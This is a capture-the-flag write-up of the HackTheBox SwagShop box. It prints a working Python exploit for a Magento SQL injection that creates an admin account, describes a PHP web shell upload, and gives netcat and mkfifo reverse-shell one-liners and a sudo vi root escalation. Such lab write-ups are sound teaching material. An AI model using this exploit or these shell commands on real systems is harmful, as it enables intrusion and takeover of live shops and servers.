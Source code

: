 ```yaml
---
layout: post
title:  "Hackthebox - Swagshop write-up"
date:   2019-10-14 10:25:00 +0200
categories: Hackthebox
---
```


## Introduction

![](https://i.imgur.com/ovX598s.png)

SwagShop, which appeared on HackTheBox on 2019/05/12, is a fun and easy GNU/Linux box. It contains an ecommerce shop running on an old/unpatched version of Magento which has some known and ready-to-use exploits. The path is quite straightforward, after some initial enumeration we can gain access to the admin panel, upload a reverse shell, get user.txt and root.txt in a couple of minutes.

## Enumeration

We can start by enumerating the services running on the machine, which is located at 10.10.10.140

```
chap@box~ > nmap -sV 10.10.10.140

Starting Nmap 7.60 ( https://nmap.org ) at 2019-05-22 10:32 CEST
Nmap scan report for 10.10.10.140
Host is up (0.099s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.40 seconds
```

As we can see, the machine is only exposing ssh and Apache. Taking a look to the website seems the most reasonable thing to do so let’s move to the web browser.

## Web pages

Going to http://10.10.10.140 leds us to an ecommerce store running on Magento and containing a couple of products. From what we can see, the pages are dated 2014, making us think that the Magento version used is quite old and probably unpatched.
While taking a look at all the pages we can also fire up gobuster in order to do some enumeration using [SecLists’ wordlists](https://github.com/danielmiessler/SecLists).

```
chap@box ~/S/D/Web-Content> gobuster -u "10.10.10.140" -w common.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.140/
[+] Threads      : 10
[+] Wordlist     : common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2019/05/15 00:00:11 Starting gobuster
=====================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/app (Status: 301)
/downloader (Status: 301)
/errors (Status: 301)
/favicon.ico (Status: 200)
/includes (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/lib (Status: 301)
/media (Status: 301)
/pkginfo (Status: 301)
/server-status (Status: 403)
/shell (Status: 301)
/skin (Status: 301)
/var (Status: 301)
=====================================================
2019/05/15 00:00:52 Finished
=====================================================
```

The scan pokes us with a couple of interesting pages, while taking a look at all of them we stumble upon http://10.10.10.140/downloader/ which contains the login panel of **Magento connect manager**, Magento’s original marketplace for extensions.

![](https://i.imgur.com/EOAwSMQ.png)

As we can see, the version running is **1.9.0.0**. By making a rapid search on Exploit database, we discover this version has a [known exploit](https://www.exploit-db.com/exploits/37977).

## Exploitation

The Python exploit needs to be tailored a little in order to fit our needs.

```
import requests
import base64
import sys

target = "http://target.com/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "downloader"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="user", password="password")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/downloader/ with creds user:password".format(target)
else:
    print "DID NOT WORK"
```

This is the modified version of the Python exploit, the original one can be found on Exploit database.

Once we run the exploit, we can log in using user:password as credentials.

From this panel, we can upload/install Magento extensions as well as have access to the administrator panel. I decided to try and upload [Magpleasure Filesystem extension](https://magentary.com/glossary/magpleasurefilesystem-extension/) in order to modify a .php file and upload a reverse shell.

After uploading the extension we can use the “Return to Admin” button in order to take advantage of our newly uploaded extension. Back to the Administrator panel we can now go to System > Filesystem > IDE and use our integrated IDE. The file targeted with an uploader is http://10.10.10.140/get.php using a slightly modified version of [this basic uploader](https://gist.githubusercontent.com/taterbase/2688850/raw/b9d214c9cbcf624e13c825d4de663e77bf38cc14/upload.php).

![](https://i.imgur.com/BPt3q2E.png)

Using our basic uploader we can upload and use [SecLists’ cmd-simple reverse shell](https://github.com/danielmiessler/SecLists/blob/master/Web-Shells/FuzzDB/cmd-simple.php) and launch a couple of basic commands straight from our address bar.

After a couple of ls and cat we get to http://10.10.10.140/app/cmd-simple.php?cmd=cat+/home/haris/user.txt which contains the hash ```a448877277e82f05e5ddf9f90aefbac8``` needed to own user.

![](https://i.imgur.com/USTlH5S.png)

We still need a fully working reverse shell before getting root. We try to spawn one using the classic netcat method,  starting a listener on ```nc -lvnp [PORT]``` and launching ```nc -e /bin/sh [IPADDR] [PORT]``` from our uploaded shell. This method seems to not work at all, probably because this version of nc doesn’t support the ```-e``` parameter needed to execute commands after connecting.

Second shot is

```
rm /tmp/shell;mkfifo /tmp/shell;cat /tmp/shell|/bin/sh -i 2>&1|nc [IPADDR[ [PORT] >/tmp/shell
```

[This method](https://onofri.org/security/%ef%bb%bfpenetration-testing-ottenere-shell-e-tty-su-linux/#more-191) works and gets us a fully working reverse shell.

Running ```sudo -l``` shows us the commands we can run and the folders we have write access to as ```www-data``` (we are logged in as www-data, the Apache user). 
From this step, getting root is quite simple. The command:

```
sudo /usr/bin/vi /var/www/html/root.sh
```

Allows us to run ```vi``` as ```root``` in ```/var/www/html/``` and to launch a root shell by typing ```:!bash``` inside vi. After that, ```cat /root/root.txt``` gets the job done.

![](https://i.imgur.com/DA8zEiq.png)
